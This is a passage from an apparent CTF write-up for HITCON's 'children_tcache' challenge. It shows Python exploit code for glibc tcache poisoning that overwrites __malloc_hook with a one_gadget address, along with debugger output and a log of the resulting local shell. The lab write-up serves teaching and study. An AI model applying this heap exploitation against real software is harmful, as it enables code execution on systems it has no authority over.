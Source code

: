 
Now, to do so, we will allocate a chunk, which will return the chunk `0x0000555555757770`, then we will overwrite the `fd` pointer with the target chunk `__malloc_hook`, then we will do one more allocation such that it'll have the `tcache` head pointing to the target chunk adress:-

```py
# we can create a fake chunk i.e. target pointing to the __malloc_hook
malloc_hook = libc_base + 0x3ebc30
fake_chunk = malloc_hook
log.info('fake chunk: {}'.format(hex(fake_chunk)))

# heap_list[4] => chunk_5 (0x71)
# we used tcache_poisoning here
# chunk_5 will be served from tcache and we will put the address of
# our fake chunk in the chunk_1's fd.
new_heap(0x68, p64(fake_chunk))

# heap_list[5] => chunk_1 (0x71)
# this allocation serves chunk_1 and put fake chunk address in the tcache
new_heap(0x68, 'h' * 0x67)
```

Doing so:-

```r
gef➤  heap bins tcache
──────────────────────────────────────────────────── Tcachebins for arena 0x7ffff7dcdc40 ────────────────────────────────────────────────────
Tcachebins[idx=5, size=0x70] count=0  ←  Chunk(addr=0x7ffff7dcdc0d, size=0x0, flags=)  ←  [Corrupted chunk at 0xfff7dc9d60000000]
```

Now, the next allocation will return the address `0x7ffff7dcdc0d`, which we can overwrite with the `one_gadget`, resulting in the `__malloc_hook` being overwritten with the `one_gadget`'s address and trigger the `__malloc_hook` by allocating a chunk, hence getting a shell:-

```py
# heap_list[6] => fake_chunk (0x7f)
# since fake_chunk is at the head of the list, this allocation returns it
# then, we overwrite __malloc_hook with one gadget
new_heap(0x68, p64(libc_base + 0x4f432))

# this allocation triggers __malloc_hook and we have shell
new_heap(1, '', True)
p.interactive()
```

Doing so:-

```r
vagrant@ubuntu-bionic:~/sharedFolder/training/hitcon$ python3 children_tcache.py
[+] Starting local process './children_tcache': pid 3225
[*] LIBC Base: 0x7ffff79e2000
[*] fake chunk: 0x7ffff7dcdc30
[*] Switching to interactive mode
$ whoami
vagrant
$ echo "Pwned"
Pwned
$ 
[*] Interrupted
```
